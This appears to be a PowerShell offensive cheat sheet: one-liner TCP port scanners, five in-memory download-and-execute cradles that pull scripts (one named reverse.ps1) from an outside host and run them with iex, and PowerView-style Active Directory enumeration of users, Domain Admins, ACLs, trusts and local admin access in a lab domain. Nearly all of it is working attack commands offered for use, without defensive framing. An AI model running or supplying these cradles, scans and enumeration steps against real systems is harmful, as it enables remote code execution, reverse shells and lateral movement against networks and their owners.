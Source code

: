 ''' Ping with IP Powershell
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.0.0.100",$_)) "Port $_ is open!"} 2>$null
'''

'''
1..20 | % { $a = $_; write-host "------"; write-host "10.0.0.$a"; 22,53,80,445 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.1.1.$a",$_)) "Port $_ is open!"} 2>$null}
'''

'''PowerShell in-memory Download and Execute

iex (iwr 'http://192.168.2.2/file.ps1')

--------------------------

$down = [System.NET.WebRequest]::Create("http://192.168.2.2/file.ps1")
$read = $down.GetResponse()
IEX ([System.IO.StreamReader]($read.GetResponseStream())).ReadToEnd()

--------------------------

$file=New-Object -ComObject
Msxml2.XMLHTTP;$file.open('GET','http://192.168.2.2/file.ps1',$false);$file.sen
d();iex $file.responseText

--------------------------

iex (New-Object Net.WebClient).DownloadString('https://192.168.2.2/reverse.ps1')

--------------------------

$ie=New-Object -ComObject
InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.2.2/reverse.ps1 ‘);
sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response

--------------------------

'''


# Domain Enumerate
''' Get current domain

Get-NetDomain
Get-NetDomain –Domain cyberwarfare.corp

'''

''' Retrieve Current SID and Domain Controller 

Get-NetDomainController –Domain cyberwarfare.corp
Get-DomainSID

'''

'''Retrieve a list of users in the current domain

Get-NetUser
Get-NetUser –UserName emp1

'''

''' Retrieve a list of computers in the current domain

Get-NetComputer
Get-NetComputer – FullData
Get-NetComputer –OperatingSystem “Windows Server 2016 Standard”

'''

''' List all domain groups in the current domain

Get-NetGroup
Get-NetGroup –FullData
Get-NetGroup –Domain cyberwarfare.corp

'''

''' Enumerate privilege domain group members and local administrators
group members 

Get-NetGroupMember –GroupName “Domain Admins” -verbose
Get-NetLocalGroup –ComputerName DC-01 -ListGroups

'''

'''ACL Enumeration, get the ACLs associated with an entity
 
Get-ObjectAcl -SamAccountName <Domain_User> –ResolveGUIDs

'''
''' Unique and interesting ACL Scanning

Invoke-ACLScanner –ResolveGUIDs

'''

''' Enumerate Domain Trusts

Get-NetDomainTrust
Get-NetDomainTrust –Domain cyberwarfare.corp

'''

'''Enumerate all domain in a Forest

Get-NetForestDomain –Verbose
Get-NetForest -Verbose

'''
''' Find computer sessions where current user has local admin access

Find-LocalAdminAccess -Verbose

'''

